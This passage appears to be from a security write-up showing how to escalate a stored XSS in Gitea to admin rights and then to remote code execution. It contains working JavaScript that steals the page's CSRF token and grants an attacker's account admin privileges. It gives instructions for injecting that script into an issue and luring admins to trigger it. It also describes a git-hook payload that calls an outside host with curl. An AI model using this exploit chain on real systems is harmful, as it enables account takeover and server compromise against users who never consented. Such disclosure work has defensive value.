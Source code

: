 Let's write some JS code to do this:
```js
var AppURL = "http://mygitea.com";
var HackerID = "1";
var HackerEmail = "hacker@example.com";

var CSRF = (document.evaluate("/html/head/meta[9]", document, null, XPathResult.FIRST_ORDERED_NODE_TYPE, null).singleNodeValue).content;

var xhr = new XMLHttpRequest();
xhr.open("POST", AppURL + "/admin/users/" + HackerID);
xhr.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
xhr.send("_csrf=" + CSRF + "&login_type=0-0&login_name=&full_name=&email=" + encodeURIComponent(HackerEmail) + "&password=&website=&location=&max_repo_creation=-1&active=on&admin=on&allow_git_hook=on&allow_create_organization=on");
```

Notice the value of `login_type` can change according to your Gitea version and the way your instance handles login.

Put this payload in its own file, upload it on your repo and inject it in an issue body using something like `<script src="http://mygitea.com/hacker/mysaferepo/raw/branch/master/exploit.js"></script>`.

Now the attacker can comment an issue/PR referencing this injected issue, and when someone with enough rights puts his mouse over the reference, the attacker gets granted admin rights ! He can also assigne the issue to an admin, or create the issue on a repo an admin is watching (so he'll get a notification) to increase its chances.

### Get a RCE

The """funniest""" part with Gitea is that security considerations where not part of the process, by implementing git hooks. It's probably one of the worst idea you could implement.

Once you have admin rights, you can grant you the privilege to manage git hooks (what is achieved with the previous payload). Procede as the [Gitea Git Hooks Remote Code Execution Metasploit module](https://packetstormsecurity.com/files/162122/Gitea-Git-Hooks-Remote-Code-Execution.html) does:
 - add your bash payload into the `post-receive` git-hook ;
 - commit and push something, even if it's empty ;
 - check the effect of the payload.

To make sure this RCE is valid, let's put the following, with a valid `id`.

```bash
#!/bin/bash

curl https://requestbin.net/r/<id>
```

In the RequestBin inspection panel, after we submit a file that triggers the `post-receive` git hook, we see that a request was achieved with a `User-Agent: curl/<version>` which proves it is a valid RCE.

Notice this functionnality implies that for every XSS that can get triggered by an admin, as long as there will be the `_csrf` value embeded in pretty much all the webpages, you can get a RCE on Gitea.
